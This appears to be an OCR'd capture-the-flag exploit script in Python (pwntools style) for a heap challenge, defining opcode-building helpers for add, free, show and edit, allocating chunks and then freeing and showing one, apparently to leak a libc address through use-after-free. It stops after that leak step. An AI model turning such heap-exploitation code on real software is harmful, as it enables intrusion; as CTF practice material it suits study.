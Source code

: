 ```c
#context.terminal = ['tilix', 'splitw', '-v']
local = 1
if local == 1:
    io=process(binary)
else:
    io=remote()
elf=ELF(binary)
#libc = ELF("/lib/i386-linux-gnu/libc.so.6")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
def add(index,size,flag=1):
    pay = b'\x01'
    pay += p8(index)
    pay += p16(size)
    if flag == 1:
        pay += b'\x05'
        ru("Pls input the opcode\n")
        s(pay)
    else:
        return pay

def free(index,flag=1):
    pay = b'\x02'
    pay += p8(index)
    if flag == 1:
        pay += b'\x05'
        ru("Pls input the opcode\n")
        s(pay)
    else:
        return pay

def show(index,flag=1):
    pay = b'\x03'
    pay += p8(index)
    if flag == 1:
        pay += b'\x05'
        ru("Pls input the opcode\n")
        s(pay)
    else:
        return pay

def edit(index,size,content,flag=1):
    pay = b'\x04'
    pay += p8(index)
    pay += p16(size)
    pay += content
    if flag == 1:
        pay += b'\x05'
        ru("Pls input the opcode\n")
        s(pay)
    else:
        return pay

add(0,0x410)#0
add(1,0x460)#1
add(2,0x418)#2
add(3,0x440)#3
add(4,0x410)#4
#---free(1) and show(1)---
pay = free(1,0)
pay += show(1,0)
pay += b'\x05'
ru("Pls input the opcode\n")
s(pay)
```